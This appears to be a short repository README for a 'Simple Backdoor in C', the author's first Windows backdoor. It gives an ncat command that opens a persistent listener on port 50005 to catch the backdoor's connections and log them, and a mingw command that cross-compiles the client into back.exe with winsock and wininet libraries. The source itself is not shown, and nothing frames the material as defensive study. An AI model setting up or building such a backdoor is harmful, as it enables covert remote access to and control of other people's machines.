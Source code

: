 Simple Backdoor in C

This is my first Windows Backdoor

Alternative with bash
```bash
ncat -knvlp 50005 | tee test.txt
```

Compilation of the client
```bash
i686-w64-mingw32-gcc -o back.exe backdoor_mod.c -lwsock32 -lwininet
```